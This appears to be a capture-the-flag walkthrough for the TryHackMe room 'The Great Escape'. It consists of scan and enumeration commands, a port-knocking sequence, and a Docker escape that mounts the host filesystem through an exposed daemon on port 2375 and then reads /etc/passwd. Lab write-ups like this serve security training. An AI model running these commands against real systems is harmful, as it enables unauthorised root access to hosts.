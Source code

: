 # The Great Escape

**Room Link:** [https://tryhackme.com/r/room/thegreatescape](https://tryhackme.com/r/room/thegreatescape)



## Initial Scan <a href="#initial-scan" id="initial-scan"></a>

**Kali**

```
nmap -A $VICTIM
```

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



## Scan all ports <a href="#scan-all-ports" id="scan-all-ports"></a>

**Kali**

```
nmap -sV -sT -O -p 1-65535 $VICTIM
```

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### TCP/80 - HTTP <a href="#tcp-8080-http" id="tcp-8080-http"></a>

Its returning too much from 200 so we need to filter it out

**Kali**

```
gobuster -e dir -u http://$VICTIM -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt --wildcard
```

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Kali**

Had to add .well-known to the wordlist, wasn't in any of Tryhackme's default wordlists

```
gobuster dir -u http://$VICTIM -w /usr/share/wordlists/dirb/common.txt  --wildcard  -s"204,301,302,307,401,403"
```

<figure><img src="../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

None of this was working, try later.

**Kali**

```
dirb http://$VICTIM/.well-known -X .txt
```

**Kali**

```
curl http://$VICTIM/.well-known/security.txt
```

**Kali**

```
curl http://$VICTIM/api/fl46
```

**Kali**

```
curl http://$VICTIM/robots.txt
```

<figure><img src="../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>





<figure><img src="../../.gitbook/assets/image (862).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (863).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (864).png" alt=""><figcaption></figcaption></figure>





<figure><img src="../../.gitbook/assets/image (865).png" alt=""><figcaption></figcaption></figure>





<figure><img src="../../.gitbook/assets/image (866).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (868).png" alt=""><figcaption></figcaption></figure>





<figure><img src="../../.gitbook/assets/image (867).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (869).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
git clone https://github.com/grongor/knock.git
cd knock
./knock $VICTIM 42 1337 10420 6969 63000
nmap $VICTIM -p 2375
```

<figure><img src="../../.gitbook/assets/image (870).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
subl /etc/docker/daemon.json
```

**daemon.json**

```
{
  "insecure-registries" : ["10.10.90.88:2375"]
}
```

**Kali**

```
sudo systemctl stop docker
```

Wait 30 seconds

**Kali**

```
sudo systemctl start docker
```

**Kali**

```
docker -H $VICTIM:2375 images
docker -H $VICTIM:2375 run -v /:/mnt --rm -it alpine:3.9 chroot /mnt sh
cat /etc/passwd
```

<figure><img src="../../.gitbook/assets/image (871).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (872).png" alt=""><figcaption></figcaption></figure>

